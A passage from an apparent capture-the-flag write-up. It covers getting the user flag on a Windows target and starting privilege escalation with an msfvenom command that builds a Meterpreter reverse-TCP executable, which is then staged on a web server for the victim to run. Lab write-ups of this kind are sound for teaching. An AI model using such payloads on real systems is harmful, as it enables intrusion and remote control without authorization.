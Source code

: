 ![](/images/rm-revshell.png)

# User Flag
From here we have access to the user flag and you can find it in the `C:\users\Public` directory.

![](/images/rm-user.png)

# Priv Esc
The first thing I'm going do is upgrade our shell to a [meterpreter shell](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) which will make things easier for us here in a bit.

## msfvenom
Use msfvenom to create the shell code binary we will need to execute on the victim machine. 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
Put this in the web server directory you have from earlier. 

![](/images/rm-msfven.png)
